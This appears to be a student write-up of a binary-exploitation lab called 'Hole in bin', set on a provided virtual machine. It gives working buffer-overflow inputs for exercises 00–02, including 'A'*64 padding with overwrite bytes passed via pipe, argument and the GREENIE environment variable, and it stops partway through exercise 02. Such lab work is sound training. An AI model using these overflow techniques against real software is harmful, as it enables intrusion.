# Hole in bin

This exercise is designed to test skills and understanding of binary exploitation and reverse engineering. You will need to work through a series of binary exploitation challenges using a provided virtual machine.

Audit questions https://github.com/01-edu/public/blob/master/subjects/cybersecurity/hole-in-bin/audit/README.md

1. Download the virtual machine file `hole-in-bin.ova`. Install and launch the machine in VirtualBox.
   Username: user, Password: user
2. Access the specified address mentioned in the description: `/opt/hole-in-bin`
3. In the directory, there are 12 new folders - 12 exercises.

## Exercise 00: Buffer Overflow Basics

Tools: strings, objdump, gdb

Overview: The binary checks whether a variable is non-zero to print a success message. Because it uses gets without validating input size, a buffer overflow is possible.

Exploit:

Input:

`python3 -c 'print("A"*65)' | ./bin`

Result: The variable is changed, printing: you have changed the 'modified' variable.
[exercise00](img/00.png)

## Exercise 01: Controlled Variable Modification

Tools: strings, objdump

Overview: The program checks whether an input variable equals "abcd".

Exploit:

Input:

`./bin $(python3 -c 'print("A"*64 + "dcba")')`


Result: "you have correctly got the variable to the right value."
[exercise01](img/01.png)

## Exercise 02: Environment Variable Exploit

Tools: gdb, objdump, strings

Overview: The binary uses the GREENIE environment variable with a vulnerable strcpy.

Exploit:

Set `GREENIE`: `export GREENIE=$(python3 -c 'print("A"*64 + "\x0a\x0d\x0a\x0d")')`
